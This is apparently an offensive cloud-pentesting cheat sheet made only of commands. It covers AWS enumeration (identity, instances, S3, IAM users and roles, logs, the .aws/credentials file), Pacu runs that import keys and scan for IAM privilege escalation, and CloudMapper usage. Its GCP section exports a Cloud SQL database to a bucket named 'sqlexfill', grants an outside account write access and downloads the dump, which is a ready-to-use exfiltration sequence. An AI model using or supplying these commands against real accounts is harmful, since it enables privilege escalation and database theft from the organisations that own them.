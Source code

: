 ## Cloud Situation Awareness AWS
aws sts get-caller-identity
aws ec2 describe-instances
aws s3 ls
aws lambda list-function
aws iam list-roles
aws iam list-users
aws logs describe-log-groups
.aws/credentials 

## PACU - Metasploit for AWS 
	import_keys jmerckle
	run iam__enum_permissions
	run iam__privesc_scan 
	
## GCP 
	gcloud sql instances list 
	gcloud sql databases list -i fm-research
	gsutil mb gs://sqlexfill
	gsutil acl ch -u jmerckle@falsimenetis.com:WRITE gs://sqlexfill
	gcloud sql export sql fm-research --database=ai gs://sqlexfill/sqldump.gz 
	gsutil cp gs://sqlexfill/sqldump.gz . 

## AWS Cloudmapper	
cloudmapper.py prepare --config config.json --account acctname 
cloudmapper.py report --config config.json --account acctname
cloudmapper.py webserver
